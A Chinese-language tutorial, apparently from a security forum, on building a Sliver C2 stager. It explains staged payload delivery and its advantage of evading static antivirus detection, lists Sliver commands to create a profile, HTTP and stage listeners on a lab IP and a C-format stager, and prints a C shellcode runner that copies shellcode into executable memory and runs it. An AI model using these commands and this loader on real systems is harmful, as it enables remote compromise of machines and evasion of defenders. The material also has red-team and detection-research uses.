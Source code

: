 一、背景及概念
-------

Stager 在这里指分阶段执行器，其核心作用在于从C2服务器上下载Sliver Shellcode，再上线Sliver C2。使用到分阶段执行器优势有二，其一为上传的文件较小，相较于Sliver原生Implant有10+MB，Stager一般只有几KB大小，另一个就是通过Stager传输的Sliver Shellcode直接运行在内存中，避免文件落地，静态查杀。  
相关内容的官方文档 - [Stagers · Sliver Wiki (github.com)](https://github.com/BishopFox/sliver/wiki/Stagers)

> 这里给出作者的理解：Stager = Dropper + ShellCode Runner

二、快速上手 - 简易Stager
-----------------

在 Sliver C2 中，Stager 工作方式是基于一个配置文件（profiles），其中记载了一个 Implant 的所有定义及配置信息，该配置文件通过 `profiles new` 命令创建。

```shell
profiles new --http 172.16.181.182:9002 --skip-symbols --format shellcode --arch amd64 win64_stage
http -l 9002
```

在有了配置文件之后，就可以创建一个分阶段监听器，可通过 TCP 或 HTTP(S) 协议来传输 Sliver ShellCode 至目标主机上。

```shell
# 创建分阶段监听器
stage-listener --url tcp://172.16.181.182:8443 --profile win64_stage
# 创建Stager
generate stager --lhost 172.16.181.182 --lport 8443 --arch amd64 --format c
```

![p9aH6ne.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-39e87d965b932c56575a330a55c5b83246c8dc88.png)  
精心制作了一张通信连接图，便于理解上述过程：  
![p9aHsXD.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-90de311aef91978d395d30e377e54a63bb6010d8.png)

### 编写简易Stager

之后就是使用c语言编写简易分阶段执行器Stager（shellcode runner），运行上面的shellcode，建立连接，后Sliver分阶段传输Sliver Shellcode至目标机器上运行，成功上线。

```c
#include "windows.h"

int main()
{
    unsigned char shellcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x48\x31\xd2\x65\x48\x8b\x52\x60\x56\x48\x8b\x52"
...

    void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof shellcode);
    ((void(*)())exec)();

    return 0;
}
```

